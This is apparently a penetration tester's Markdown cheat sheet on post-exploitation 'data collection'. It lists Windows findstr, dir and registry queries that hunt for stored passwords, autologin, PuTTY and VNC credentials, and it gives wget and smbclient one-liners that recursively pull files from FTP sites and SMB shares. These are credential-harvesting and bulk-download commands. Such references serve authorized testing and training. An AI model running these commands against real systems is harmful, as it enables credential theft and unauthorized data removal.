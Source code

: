 # Data Collection  

## Windows  

Searching inside files for passwords.  
`cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt`  
`findstr /si password *.xml *.ini *.txt *.config`  
`findstr /spin "password" *.*`  

searching for files with certain filenames  
`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`  
`where /R C:\ user.txt`  
`where /R C:\ *.ini`  

search the registry for key names and passwords  
`REG QUERY HKLM /F "password" /t REG_SZ /S /K`  
`REG QUERY HKCU /F "password" /t REG_SZ /S /K`  

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin`  
`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`  
`reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters`  
`reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials`  
`reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials`  
`reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password`  

`reg query HKLM /f pass /t REG_SZ /s`
`reg query HKLM /f password /t REG_SZ /s`   
`reg query HKCU /f password /t REG_SZ /s`  

## Mirror FTP sites  

`wget -r -nH ftp://anonymous:anonymous@ipaddress//`  

## Download using smbclient

`smbclient '\\server\share' -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'`
